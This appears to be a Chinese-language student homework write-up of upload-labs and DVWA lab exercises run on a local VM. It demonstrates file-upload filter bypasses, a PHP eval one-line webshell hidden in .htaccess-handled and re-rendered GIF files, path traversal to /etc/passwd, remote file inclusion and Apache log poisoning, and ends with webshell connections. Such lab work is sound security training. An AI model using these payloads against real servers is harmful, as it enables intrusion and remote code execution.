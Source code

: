 **作业：**

#### 1. 文件上传 ####

##### 1.1 客户端绕过练习 #####

- 禁用js

![pass-01-disable-js](images/pass-01-disable-js.png)

![phpinfo-page](images/phpinfo-page.png)


- 后缀名绕过，先把一句话木马trojan.php改为 trojan.jpg 上传，使用burp抓包，再burp中改回php后缀后放行。

![trojan-burp](images/trojan-burp.png)

![trojan-phpinfo](images/trojan-phpinfo.png)


- 修改前端代码，firefox浏览器中F12，删除 form 标签的 onsubmit 中checkFile事件即可成功上传。

![onsubmit-checkfile](images/onsubmit-checkfile.png)



##### 1.2 服务端黑名单绕过：.htaccess 文件绕过 #####

```shell
vim .htaccess
<!-- .htaccess文件 -->
<FilesMatch "geektime.jpg">
Sethandler application/x-httpd-php
</FilesMatch>

vim geektime.jpg
<?php @eval($_POST['a']); ?>

```

Pass-04 实验，上传.htaccess文件后，再上传geektime.jpg文件，成功上传后，copy image link 使用蚁剑去连接 http://192.168.216.129:8083/upload-labs/upload/geektime.jpg

![antsword-add-shell](images/antsword-add-shell.png)



##### 1.3 服务端白名单绕过：%00 截断绕过，要求虚拟机中搭建实验环境，分别实现 GET、POST 方法的绕过 #####

小皮面板暂时仅支持x86_64体系结构,退出安装..  Mac的php最低仍大于php5.3.4版本

![phpstudy](images/phpstudy.png)



##### 1.4 二次渲染绕过 #####

Pass-17实验，先上传一张jpg图片，上传成功。下载显示的图片与原图对比hex

![xg-1](images/xg-1.png)

![comparetwojpg](images/comparetwojpg.png)

在380-400行添加一句话木马后，再次上传失败，提示：该文件不是jpg格式的图片。

![add get trojan](images/add get trojan.png)



重新选择620行添加一句话木马，图片再次上传成功。

![addgettrojanto620](images/addgettrojanto620.png)

![xgt-addtrojan](images/xgt-addtrojan.png)

http://192.168.216.129:8083/upload-labs/upload/1974695249.jpg ，用hex Fiend查看后发现一句话木马经过二次渲染后没有了。

改用gif文件测试，先上传origin.gif 图片后，下载二次渲染后的图片保存为origin-1.gif。使用hex Fiend对比原图与渲染后的图片，发现第32行没有更改，把一句话木马`<?php @eval($_POST['a']);?>` 添加到原文件origin.gif 第32行，保存后，重新上传成功，下载渲染后的图片origin-3.gif，放到hex Fiend查看，发现一句话木马语句仍然存在。

![post-trojan](images/post-trojan.png)

![yijian-test](images/yijian-test.png)

![hackbar-test](images/hackbar-test.png)



#### 2. 文件包含 ####

##### 2.1 DVWA 环境下包含其他目录的任意 3 个文件，要求使用相对路径。#####

- Low 状态下，可以使用../返回上级目录，所以可以多打几次../../../../ 回道根目录在输入/etc/passwd

![low-dvwa-file1](images/low-dvwa-file1.png)

![low-dvwa-login](images/low-dvwa-login.png)

![low-dvwa-phpinfo](images/low-dvwa-phpinfo.png)


- Medium 状态下会过滤`../` 为空，所以可以拼接为`..././`

![medium-dvwa-file2](images/medium-dvwa-file2.png)


- Impossible 状态下，写死了file1.php，file2.php，file3.php，所以无法包含其他文件



##### 2.2 远程文件包含 #####

把dvwa作为靶机（设置为low），upload-labs去攻击

upload-labs/Pass-01 使用phpinfo.php上传，F12-F1高级选项禁用js，上传成功，复制路径为http://192.168.216.129:8083/upload-labs/upload/phpinfo.php  （PHP版本为PHP Version 5.5.9-1ubuntu4.29）

用dvwa文件包含去包含这个文件，把dvwa文件包含连接最后的file替换成上上述路径

http://192.168.216.129:8081/vulnerabilities/fi/?page=file1.php 替换后为

http://192.168.216.129:8081/vulnerabilities/fi/?page=http://192.168.216.129:8083/upload-labs/upload/phpinfo.php  

显示file not found，是因为要使用upload-labs docker内部ip，

```
$ docker exec -it 4c05f41537df  bash
root@4c05f41537df:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
130: eth0@if131: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

http://192.168.216.129:8081/vulnerabilities/fi/?page=http://172.17.0.4/upload-labs/upload/phpinfo.php 

读出来的phpinfo信息是upload-labs的，而我们要读的是dvwa的。

phpinfo.php 文件后缀改成.txt 再次上传后尝试

![phpinfo-txt](images/phpinfo-txt.png)

访问 http://192.168.216.129:8081/vulnerabilities/fi/?page=http://172.17.0.4/upload-labs/upload/phpinfo.txt 

![dvwa-phpinfo](images/dvwa-phpinfo.png)



##### 2.3 中间件日志包含绕过，要求使用蚁剑连接成功 #####

在url的page后添加一句话木马，发现被浏览器进行url编码了，使用burp去还原一句话木马。

![dvwa-get-shell](images/dvwa-get-shell.png)

让access.log 文件记录中包含PHP代码`<?php @eval($_POST['a']);?>` 

```shell
root@ce51c0404636:/var/log/apache2# tail -n 5 access.log
192.168.216.1 - - [22/Oct/2023:11:36:41 +0000] "GET /vulnerabilities/fi/?page=http://192.168.216.129:8083/upload-labs/upload/phpinfo.txt HTTP/1.1" 200 336 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.1 Safari/605.1.15"
192.168.216.1 - - [22/Oct/2023:11:36:46 +0000] "GET /vulnerabilities/fi/?page=include.php HTTP/1.1" 200 1631 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.1 Safari/605.1.15"
192.168.216.1 - - [22/Oct/2023:11:49:35 +0000] "GET /vulnerabilities/fi/?page=<?php eval(@$_POST['a']);?>" 400 0 "-" "-"
192.168.216.1 - - [22/Oct/2023:11:51:52 +0000] "GET /vulnerabilities/fi/?page=/var/log/apache2/access.log HTTP/1.1" 200 6880 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0"
```



![dvwa-accesslog](images/dvwa-accesslog.png)

![dvwa-cookie](images/dvwa-cookie.png)

使用蚁剑去连接dvwa

![yijian-base](images/yijian-base.png)

![yijian-cookie](images/yijian-cookie.png)

![getintodvwa](images/getintodvwa.png)
